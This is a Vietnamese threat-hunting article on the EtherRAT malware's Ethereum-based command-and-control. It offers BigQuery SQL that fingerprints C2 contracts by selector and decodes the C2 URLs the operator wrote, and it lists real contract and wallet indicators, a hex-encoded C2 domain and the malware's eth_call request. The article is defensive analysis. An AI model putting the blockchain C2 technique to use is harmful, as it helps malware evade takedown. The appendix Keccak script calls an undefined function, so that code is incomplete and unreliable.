### Hệ quả: contract này thực chất là gì

Để ý kỹ hai chữ ký. Getter **nhận** một `address`. Setter **không nhận** `address` nào cả.

Điều đó chỉ có một cách giải thích: setter dùng `msg.sender` làm khóa. Contract là một key-value store cực kỳ đơn giản:

```solidity
mapping(address => string) private store;

function setString(string calldata s) public {
    store[msg.sender] = s;          // khóa = ví của người gọi
}

function getString(address who) public view returns (string memory) {
    return store[who];              // ai cũng đọc được
}
```

Đây là một chỉnh sửa quan trọng cho cách đọc IoC của EtherRAT. Trong bài phân tích trước, tôi mô tả `0x6e044e19000487c4a6e6af15b4132a5561b5ee1f` là "đối số tra cứu" - đúng nhưng chưa đủ. Với cấu trúc trên, ta biết chính xác nó là gì:

| Địa chỉ                                      | Vai trò thật                                                         |
| -------------------------------------------- | -------------------------------------------------------------------- |
| `0x788a5336c0ef70be87619a3c13a43050c426f7ec` | Contract lưu trữ - một string registry dùng chung                    |
| `0x6e044e19000487c4a6e6af15b4132a5561b5ee1f` | **Ví của kẻ điều hành** - địa chỉ đã gọi `setString()` để ghi URL C2 |

Nói cách khác, `0x6e044e19...` không phải contract. Nó là **danh tính on-chain của operator**, và nó là một pivot point tốt hơn nhiều so với địa chỉ contract: contract có thể dùng chung bởi nhiều nhóm, nhưng ví ghi dữ liệu thì thuộc về một người.

Điều này cũng giải thích vì sao tác giả bài gốc tìm được tới **74 contract** cùng vân tay. `getString`/`setString` là tên hết sức tổng quát - rất có thể một phần trong số đó là contract lưu trữ dùng chung, hoặc bản sao được deploy lại, chứ không phải mỗi cái là một chiến dịch riêng.

---

## 4. Bộ dữ liệu BigQuery

Google duy trì một bản sao đầy đủ của Ethereum trong BigQuery public dataset, cập nhật liên tục. Các bảng dùng trong mục này:

| Bảng                           | Nội dung                                  | Cột quan trọng                                                                          |
| ------------------------------ | ----------------------------------------- | --------------------------------------------------------------------------------------- |
| `crypto_ethereum.contracts`    | Mọi contract từng được deploy             | `address`, `bytecode`, `function_sighashes`, `is_erc20`, `is_erc721`, `block_timestamp` |
| `crypto_ethereum.transactions` | Mọi giao dịch on-chain                    | `hash`, `from_address`, `to_address`, `input`, `receipt_status`, `block_timestamp`      |
| `crypto_ethereum.traces`       | Các lệnh gọi nội bộ (contract → contract) | `transaction_hash`, `from_address`, `to_address`, `input`, `call_type`                  |

Truy vấn bằng SQL chuẩn. Không cần chạy node, không cần API key, không cần rate limit.

---

## 5. Truy vấn thứ nhất - tìm contract

```sql
SELECT address, bytecode
FROM `bigquery-public-data.crypto_ethereum.contracts`
WHERE LOWER(bytecode) LIKE '%7d434425%'
AND LOWER(bytecode) LIKE '%7fcaf666%'
```

Đọc từng phần:

- `FROM ...contracts` - quét toàn bộ contract từng tồn tại trên Ethereum mainnet.
- `LOWER(bytecode)` - chuẩn hóa hoa/thường trước khi so khớp, vì hex có thể được lưu ở dạng khác nhau.
- `LIKE '%7d434425%'` - tìm chuỗi selector **xuất hiện ở bất kỳ đâu** trong bytecode.

Vì sao selector lại nằm trong bytecode? Vì trình biên dịch Solidity sinh ra một **function dispatcher** ở đầu mỗi contract: nó đọc 4 byte đầu của calldata rồi so sánh lần lượt với từng selector đã biết để nhảy tới đúng đoạn mã. Các selector do đó bị nhúng nguyên văn dưới dạng hằng số `PUSH4`.

- `AND` giữa hai điều kiện là mấu chốt. Một selector đơn lẻ sẽ cho rất nhiều false positive - 4 byte hex có thể trùng ngẫu nhiên với dữ liệu hằng, địa chỉ, hoặc offset trong bytecode. Yêu cầu **cả getter lẫn setter cùng có mặt** làm xác suất trùng lặp giảm đi rất mạnh.

Kết quả: **74 contract**.

### Bản viết lại tôi khuyên dùng

Truy vấn trên chạy được nhưng có hai nhược điểm: `LIKE '%...%'` trên cột `bytecode` buộc BigQuery quét toàn bộ nội dung bytecode (rất tốn), và nó bắt cả những trường hợp selector chỉ tình cờ xuất hiện trong vùng dữ liệu chứ không phải trong dispatcher.

Bảng `contracts` đã có sẵn cột `function_sighashes` - mảng các selector mà ethereum-etl **đã bóc tách đúng từ dispatcher**. Dùng nó vừa chính xác hơn vừa rẻ hơn:

```sql
SELECT
  address,
  block_timestamp AS deployed_at,
  ARRAY_LENGTH(function_sighashes) AS n_functions
FROM `bigquery-public-data.crypto_ethereum.contracts`
WHERE '0x7d434425' IN UNNEST(function_sighashes)   -- getString(address)
  AND '0x7fcaf666' IN UNNEST(function_sighashes)   -- setString(string)
  AND NOT is_erc20
  AND NOT is_erc721
ORDER BY deployed_at;
```

`ARRAY_LENGTH(function_sighashes)` là một tín hiệu bổ sung hữu ích: contract C2 thật thường chỉ có 2–4 hàm. Nếu một kết quả có 30 hàm, gần như chắc chắn đó là contract khác vô tình chứa cùng selector.

---

## 6. Truy vấn thứ hai - lấy lịch sử giao dịch

```sql
WITH etherrat_contracts AS (
  SELECT address
  FROM `bigquery-public-data.crypto_ethereum.contracts`
  WHERE LOWER(bytecode) LIKE '%7d434425%'
    AND LOWER(bytecode) LIKE '%7fcaf666%'
    AND LOWER(bytecode) NOT LIKE '%a9059cbb%'
    AND LOWER(bytecode) NOT LIKE '%095ea7b3%'
    AND LOWER(bytecode) NOT LIKE '%23b872dd%'
),
all_transactions AS (
  SELECT
    t.hash AS tx_hash,
    t.block_timestamp AS timestamp,
    t.from_address AS caller_wallet,
    t.to_address AS contract_address,
    t.input AS calldata,
    LEFT(t.input, 10) AS function_selector,
    CASE
      WHEN LEFT(t.input, 10) = '0x7d434425' THEN 'READ_C2_URL'
      WHEN LEFT(t.input, 10) = '0x7fcaf666' THEN 'WRITE_C2_URL'
      ELSE 'OTHER'
    END AS action,
    t.receipt_status AS success
  FROM `bigquery-public-data.crypto_ethereum.transactions` t
  WHERE t.to_address IN (SELECT address FROM etherrat_contracts)
)
SELECT * FROM all_transactions ORDER BY timestamp ASC
```

### CTE thứ nhất: lọc nhiễu ERC-20

Ba dòng `NOT LIKE` mới xuất hiện ở đây. Chúng loại bỏ các contract có chứa selector của ERC-20:

| Selector   | Chữ ký                                  | Vai trò                          |
| ---------- | --------------------------------------- | -------------------------------- |
| `a9059cbb` | `transfer(address,uint256)`             | Chuyển token                     |
| `095ea7b3` | `approve(address,uint256)`              | Cấp quyền chi tiêu               |
| `23b872dd` | `transferFrom(address,address,uint256)` | Chuyển token thay mặt người khác |

(Cả ba tôi đã xác thực bằng chính script Keccak ở mục 3.)

Lý do lọc: Ethereum có **hàng triệu** token contract. Nhiều token đi kèm các hàm metadata tùy biến, và một số thực sự có `getString`/`setString` để lưu tên, mô tả, URI. Nếu không loại ERC-20 ra, kết quả sẽ ngập trong token hợp pháp.

Đây là mẫu tư duy đáng học: **định nghĩa cái mình tìm bằng cả những gì nó KHÔNG có.** Contract C2 của EtherRAT là một contract tối giản - nó lưu string, và không làm gì khác. Sự _vắng mặt_ của chức năng token chính là một phần của vân tay.

Như đã nói ở mục 5, dùng `AND NOT is_erc20 AND NOT is_erc721` cho kết quả tương đương mà sạch hơn nhiều.

### CTE thứ hai: bóc tách và phân loại calldata

```sql
LEFT(t.input, 10) AS function_selector
```

Số **10** không phải tùy tiện: cột `input` là chuỗi hex có tiền tố, nên `'0x'` (2 ký tự) + 8 ký tự hex của 4 byte selector = **10 ký tự**. Đây là cách tách selector ra khỏi phần tham số.

```sql
CASE
  WHEN LEFT(t.input, 10) = '0x7d434425' THEN 'READ_C2_URL'
  WHEN LEFT(t.input, 10) = '0x7fcaf666' THEN 'WRITE_C2_URL'
  ELSE 'OTHER'
END AS action
```

Gán nhãn ngữ nghĩa cho từng giao dịch, biến hex thô thành thứ đọc được.

```sql
t.receipt_status AS success
```

`1` = giao dịch thành công, `0` = revert. Đáng giữ lại: một chuỗi WRITE thất bại có thể cho thấy operator đang loay hoay với contract, sai tham số, hoặc hết gas - dấu vết vận hành thú vị.

---

## 7. Điểm quan trọng nhất mà truy vấn trên bỏ sót

Nhánh `READ_C2_URL` trong `CASE` **gần như sẽ không bao giờ khớp**, và lý do rất đáng hiểu rõ.

Nhìn lại cách EtherRAT đọc C2:

```json
{
  "jsonrpc": "2.0",
  "method": "eth_call",
  "params": [{ "to": "0x788a...", "data": "0x7d434425..." }, "latest"]
}
```

`eth_call` là một lệnh gọi **mô phỏng cục bộ trên node RPC**. Nó không tiêu gas, không được ký, không được broadcast, không vào block. **Nó hoàn toàn không tồn tại trên blockchain.**

Hệ quả trực tiếp:

- **Hoạt động của bot là vô hình on-chain.** Bạn không đếm được số nạn nhân, không thấy được IP nào đang poll, không dựng được timeline lây nhiễm từ blockchain. Dữ liệu đó nằm ở nhà cung cấp RPC, không nằm ở Ethereum.
- **Chỉ có thao tác của operator để lại dấu.** `setString()` thay đổi trạng thái contract, nên bắt buộc phải là giao dịch thật, có ký, có trả gas, vào block vĩnh viễn.

Vì vậy giá trị thật của truy vấn thứ hai nằm **toàn bộ** ở các dòng `WRITE_C2_URL`. Mỗi dòng như vậy là một lần kẻ tấn công đổi C2, kèm theo timestamp chính xác và địa chỉ ví của chúng.

Một bổ sung nữa: nếu contract C2 được gọi **từ một contract khác** (chứ không phải trực tiếp từ ví), giao dịch đó sẽ không nằm trong bảng `transactions` mà nằm trong `traces`. Để phủ đầy đủ, cần union thêm:

```sql
SELECT transaction_hash, block_timestamp, from_address, to_address, input
FROM `bigquery-public-data.crypto_ethereum.traces`
WHERE to_address IN (SELECT address FROM etherrat_contracts)
  AND call_type = 'call'
  AND status = 1
```

---

## 8. Bước còn thiếu: giải mã URL C2 ra khỏi calldata

Bài gốc dừng ở chỗ lấy được cột `calldata` thô. Nhưng URL C2 đang nằm ngay trong đó - chỉ cần decode theo chuẩn ABI.

Vì đã biết chữ ký là `setString(string)`, bố cục calldata hoàn toàn xác định:

```text
0x7fcaf666                                                          selector      (4 byte)
0000000000000000000000000000000000000000000000000000000000000020    offset = 32   (32 byte)
0000000000000000000000000000000000000000000000000000000000000016    length = 22   (32 byte)
68747470733a2f2f6e6563726f70617469612e636f6d0000000000000000000000  dữ liệu UTF-8, pad phải
```

Ba word đầu là header, phần còn lại là chuỗi. Chuyển sang vị trí ký tự trong cột `input` (SQL đánh chỉ số từ 1, và có tiền tố `0x`):

| Thành phần    | Vị trí ký tự | Độ dài       |
| ------------- | ------------ | ------------ |
| `0x`          | 1–2          | 2            |
| selector      | 3–10         | 8            |
| offset        | 11–74        | 64           |
| length        | 75–138       | 64           |
| dữ liệu chuỗi | từ 139       | `length × 2` |

Truy vấn hoàn chỉnh:

```sql
WITH etherrat_contracts AS (
  SELECT address
  FROM `bigquery-public-data.crypto_ethereum.contracts`
  WHERE '0x7d434425' IN UNNEST(function_sighashes)
    AND '0x7fcaf666' IN UNNEST(function_sighashes)
    AND NOT is_erc20
    AND NOT is_erc721
),
writes AS (
  SELECT
    t.block_timestamp,
    t.hash            AS tx_hash,
    t.from_address    AS operator_wallet,
    t.to_address      AS c2_contract,
    -- độ dài chuỗi: lấy 16 ký tự cuối của word length để tránh tràn INT64
    CAST(CONCAT('0x', SUBSTR(t.input, 123, 16)) AS INT64) AS str_len,
    t.input
  FROM `bigquery-public-data.crypto_ethereum.transactions` t
  WHERE t.to_address IN (SELECT address FROM etherrat_contracts)
    AND LEFT(t.input, 10) = '0x7fcaf666'
    AND t.receipt_status = 1
    AND t.block_timestamp >= TIMESTAMP('2024-01-01')   -- cắt partition, giảm chi phí
)
SELECT
  block_timestamp,
  operator_wallet,
  c2_contract,
  SAFE_CONVERT_BYTES_TO_STRING(
    FROM_HEX(SUBSTR(input, 139, str_len * 2))
  ) AS c2_url,
  tx_hash
FROM writes
WHERE str_len BETWEEN 1 AND 512
ORDER BY block_timestamp DESC;
```

Vài chỗ đáng lưu ý:

- `SUBSTR(t.input, 123, 16)` - word `length` chiếm vị trí 75–138, nhưng một `uint256` không nhét vừa `INT64`. Vì độ dài chuỗi luôn nhỏ, 16 ký tự hex cuối (vị trí 123–138) là đủ và an toàn.
- `SAFE_CONVERT_BYTES_TO_STRING` thay vì bản không `SAFE_` - nếu gặp byte không phải UTF-8 hợp lệ, nó trả `NULL` thay vì làm hỏng cả truy vấn.
- `str_len BETWEEN 1 AND 512` chặn các giá trị rác khiến `SUBSTR` sinh chuỗi khổng lồ.
- `block_timestamp >= TIMESTAMP(...)` là **bắt buộc về mặt chi phí**. Bảng `transactions` được phân vùng theo `block_timestamp`; thiếu điều kiện này, bạn quét toàn bảng hàng terabyte.

Kết quả là một bảng lịch sử C2 đầy đủ: mọi URL từng được ghi, kể cả những giá trị **đã bị ghi đè** và không còn đọc được qua `getString()` nữa. Đây là điều mà phân tích mẫu tĩnh không bao giờ cho bạn.

---

## 9. Pivot tiếp theo: từ ví operator

Một khi đã có cột `operator_wallet`, ta có thứ mà phân tích malware thông thường không có: **một danh tính bền vững của kẻ tấn công**.

```sql
-- Ví này còn ghi C2 cho contract nào khác không?
SELECT DISTINCT to_address, COUNT(*) AS n_writes, MIN(block_timestamp) AS first_seen
FROM `bigquery-public-data.crypto_ethereum.transactions`
WHERE from_address = '0x6e044e19000487c4a6e6af15b4132a5561b5ee1f'
  AND block_timestamp >= TIMESTAMP('2024-01-01')
GROUP BY to_address
ORDER BY first_seen;
```

Từ đây có thể lần tiếp: ví này được nạp gas từ đâu (thường là một sàn giao dịch - tức là có KYC), nó có deploy contract nào không, có ví nào khác cùng nguồn tài trợ không. Đây là địa hạt của blockchain forensics, và nó vượt xa những gì một mẫu `.msi` có thể cho biết.

---

## 10. Vì sao cách tiếp cận này mạnh

| Phân tích mẫu                        | Săn tìm on-chain                                       |
| ------------------------------------ | ------------------------------------------------------ |
| Cần có mẫu trong tay                 | Không cần mẫu nào                                      |
| Thấy được C2 tại thời điểm build     | Thấy **toàn bộ lịch sử** C2, kể cả giá trị đã ghi đè   |
| Một chiến dịch                       | Mọi chiến dịch dùng chung code                         |
| IoC hết hạn khi tác nhân đổi hạ tầng | Vân tay còn giá trị đến khi tác nhân viết lại contract |
| Không truy được danh tính            | Có ví operator để pivot                                |

Điểm mấu chốt là **tính bất biến**. Kẻ tấn công chọn blockchain vì không ai takedown được smart contract - nhưng chính đặc tính đó khiến mọi thao tác của chúng bị ghi lại vĩnh viễn, công khai, và có thể truy vấn bằng SQL. Sự đánh đổi này nghiêng về phía người phòng thủ nhiều hơn là kẻ tấn công tưởng.

---

## 11. Giới hạn và cạm bẫy

**Về mặt kỹ thuật:**

- `LIKE '%selector%'` trên bytecode bắt cả những lần selector xuất hiện tình cờ trong vùng dữ liệu. Dùng `function_sighashes` để tránh.
- Cột `bytecode` là **runtime bytecode**, không phải creation bytecode. Contract dùng proxy (EIP-1167 minimal proxy, hoặc upgradeable proxy) sẽ có runtime bytecode rất ngắn và **không chứa selector nào** - chúng sẽ lọt lưới hoàn toàn.
- Contract đã `SELFDESTRUCT` có thể không còn trong bảng `contracts`, dù lịch sử giao dịch của nó vẫn còn trong `transactions`.
- Chỉ phủ **Ethereum mainnet**. Theo bảng tổng hợp chiến dịch, EtherHiding đã dùng BNB Smart Chain và một MaaS kit đã dùng Polygon. BigQuery public dataset không có sẵn hai chain này ở cùng mức chi tiết.

**Về mặt diễn giải:**

- `getString`/`setString` là tên **rất tổng quát**. Trong 74 contract tìm được, nhiều khả năng có cả contract lưu trữ dùng chung hợp pháp. Cần xác nhận thêm - kiểm tra số lượng hàm, nội dung string đã ghi có phải URL không, mẫu giao dịch có giống hành vi vận hành C2 không - trước khi gọi một địa chỉ là "hạ tầng độc hại".
- URL đọc được từ chain là **quan sát lịch sử**, không phải trạng thái hiện tại. Một URL từng được ghi năm 2025 có thể đã bị ghi đè từ lâu.

**Về chi phí:**

Bảng `transactions` rất lớn. BigQuery tính tiền theo lượng dữ liệu quét, với 1 TB miễn phí mỗi tháng. Trước khi chạy truy vấn thật, luôn ước lượng:

```bash
bq query --use_legacy_sql=false --dry_run 'SELECT ...'
```

Và luôn thêm điều kiện `block_timestamp` để cắt partition, cùng việc chỉ `SELECT` những cột thực sự cần - `SELECT *` trên bảng này là cách nhanh nhất để đốt hết hạn mức.

---

## 12. Áp dụng vào mẫu đang phân tích

Chuyển thẳng phương pháp trên sang case EtherRAT của Unit 42:

```sql
-- 1. Toàn bộ lịch sử C2 do operator của mẫu v7.msi ghi
--    contract 0x788a... , ví operator 0x6e044e19...
SELECT
  t.block_timestamp,
  t.hash,
  SAFE_CONVERT_BYTES_TO_STRING(FROM_HEX(SUBSTR(
    t.input, 139,
    CAST(CONCAT('0x', SUBSTR(t.input, 123, 16)) AS INT64) * 2
  ))) AS c2_url
FROM `bigquery-public-data.crypto_ethereum.transactions` t
WHERE t.to_address   = '0x788a5336c0ef70be87619a3c13a43050c426f7ec'
  AND t.from_address = '0x6e044e19000487c4a6e6af15b4132a5561b5ee1f'
  AND LEFT(t.input, 10) = '0x7fcaf666'
  AND t.receipt_status = 1
  AND t.block_timestamp >= TIMESTAMP('2025-01-01')
ORDER BY t.block_timestamp DESC;
```

Bốn URL Azure CloudApp mà Unit 42 công bố nhiều khả năng chỉ là một lát cắt. Truy vấn này sẽ cho **toàn bộ** danh sách, kèm timestamp chính xác từng lần đổi - đủ để dựng timeline vận hành của chiến dịch.

Đổi `to_address` sang các contract trong bảng tổng hợp (`0x999941b7...` của Remus, hai contract EtherHiding trong chuỗi cung ứng npm/PyPI) là có ngay một quy trình săn tìm dùng chung cho cả họ mã độc blockchain-C2 này.

---

## 13. Tóm tắt

1. Selector là 4 byte đầu của `keccak256(chữ_ký_hàm)`, bị nhúng nguyên văn trong bytecode contract nên tìm được bằng SQL.
2. Hai selector của EtherRAT là **`getString(address)`** và **`setString(string)`** - tôi dựng lại bằng brute-force sau khi xác thực Keccak-256 với các selector ERC-20 đã biết.
3. Từ chữ ký suy ra kiến trúc: contract là `mapping(address => string)`, nên `0x6e044e19...` không phải contract mà là **ví của operator**.
4. Cặp getter+setter làm vân tay; loại ERC-20 để khử nhiễu; ưu tiên `function_sighashes` hơn `LIKE` trên bytecode.
5. **Chỉ thao tác ghi của operator hiện diện on-chain.** Bot đọc bằng `eth_call` nên hoàn toàn vô hình - nhánh `READ_C2_URL` trong truy vấn gốc thực tế không bao giờ khớp.
6. Decode ABI trên `calldata` cho ra lịch sử C2 đầy đủ, kể cả các giá trị đã bị ghi đè.
7. Cột `from_address` của các giao dịch ghi mở ra hướng pivot theo ví operator.

---

## Phụ lục: script dựng lại selector

Bản Keccak-256 thuần Python dùng ở mục 3, không phụ thuộc thư viện ngoài. Điểm cần nhớ là padding `0x01`/`0x80` của Keccak gốc - dùng `hashlib.sha3_256` sẽ cho kết quả sai hoàn toàn.

```python
def keccak256(data: bytes) -> bytes:
    rate = 136
    padded = bytearray(data)
    padded.append(0x01)                       # Keccak gốc, KHÔNG phải 0x06 của SHA3
    while len(padded) % rate != 0:
        padded.append(0x00)
    padded[-1] ^= 0x80

    a = [[0] * 5 for _ in range(5)]
    for off in range(0, len(padded), rate):
        block = padded[off:off + rate]
        for i in range(rate // 8):
            a[i % 5][i // 5] ^= int.from_bytes(block[i*8:(i+1)*8], "little")
        a = keccak_f(a)

    out = bytearray()
    for i in range(4):
        out += a[i % 5][i // 5].to_bytes(8, "little")
    return bytes(out[:32])


def selector(sig: str) -> str:
    return keccak256(sig.encode()).hex()[:8]


assert selector("transfer(address,uint256)") == "a9059cbb"
assert selector("getString(address)")        == "7d434425"
assert selector("setString(string)")         == "7fcaf666"
```

---

## Tài liệu tham khảo

- [aircag: A case of etherRat](https://www.aircag.xyz/blog/a-case-of-etherrat) - bài gốc
- [BigQuery public dataset: crypto_ethereum](https://console.cloud.google.com/marketplace/details/ethereum/crypto-ethereum-blockchain)
- [ethereum-etl - công cụ sinh ra bộ dữ liệu này](https://github.com/blockchain-etl/ethereum-etl)
- [Solidity ABI specification - function selector & argument encoding](https://docs.soliditylang.org/en/latest/abi-spec.html)
- [4byte.directory - cơ sở dữ liệu tra ngược selector](https://www.4byte.directory/)
- [Contract 0x788a5336c0ef70be87619a3c13a43050c426f7ec trên Etherscan](https://etherscan.io/address/0x788a5336c0ef70be87619a3c13a43050c426f7ec) -->
